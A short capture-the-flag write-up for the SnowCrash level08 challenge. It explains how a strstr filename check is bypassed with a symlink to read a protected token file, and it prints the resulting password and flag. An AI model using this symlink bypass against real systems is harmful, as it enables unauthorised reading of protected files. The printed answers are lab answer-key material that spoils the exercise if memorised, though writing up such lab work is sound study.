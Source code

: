 # Solution

So we loged in, find level08 binary and token, we decompiled the binary and generated the C code,
from this we can see that the program take an argument that argument is check if it's named token it's not valid,
so here the exploit is pretty simple we have to pass the token check done with strstr which is not safe for checking,
we can bypass this check with a simple symlink.


First we need to create the symlink:

```sh
ln -sf /home/user/level08/token /tmp/fake
```

now we can execute the level08 binary with /tmp/fake this will give us the password for flag08

```sh
level08@SnowCrash:~$ ./level08 /tmp/fake
quif5eloekouj29ke0vouxean
```

after that we can get the flag

```sh
level08@SnowCrash:~$ su flag08
Password: 
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```
